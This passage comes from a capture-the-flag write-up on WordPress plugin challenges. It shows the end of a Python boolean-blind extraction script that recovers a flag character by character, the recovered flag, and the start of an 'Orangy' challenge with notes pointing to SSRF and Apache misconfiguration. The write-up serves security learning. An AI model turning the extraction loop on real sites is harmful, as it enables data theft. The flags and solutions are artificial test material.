 ```python

				req = requests.get(URL, params=params)

				if 'id' in req.text:
					flag += chr(char)
					position += 1
					print(f'[+] Found Flag: {flag}')
				else:
					pass
		return f'[+] Found Flag: {flag}'

if __name__ == '__main__':
	run = Exploit()
	print(run.boolean())
```

Run the exploit and the flag is obtained.
![Flag](/assets/img/Patchstack-S02E03-WCEU-2025/WhatIsMagic-flag.png)

**FLAG:** CTF{763eddf891f891_whatismagic_354df89133ed45df891df891}

# **Orangy**

**Description:**\
URGENT: We've intercepted a WordPress development environment from the notorious ransomware group "Orangy". Their decryption key is hidden somewhere in the server, and we need it to help hundreds of affected customers recover their files. Time is critical - can you help us retrieve the key before more systems are compromised?
This is a gray-box challenge, no need to bruteforce anything (login, endpoint, etc).\
http://18.140.17.89:9160

**Source Code Analysis: Server-Side Request Forgery & Apache Missconfig**\
No source code is given, but notes from the developer which contain the following.
File dev_notes.md:

```md
# Classic Editor Enhancement

## Developer Notes - 2025-05-27

Hey affiliates! Quick update on the Classic Editor plugin enhancement project. I've been working on integrating the jFeed library to improve our RSS feed handling capabilities. Here's what's been happening:

### Current Status

- Attempting to modernize the Classic Editor plugin with better RSS feed support. Classic Editor is installed on the WordPress site.
- Created a backup of the modified plugin with jFeed in `/tmp/backup/classic-editor/scripts/jFeed/` while testing the jFeed integration
```

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn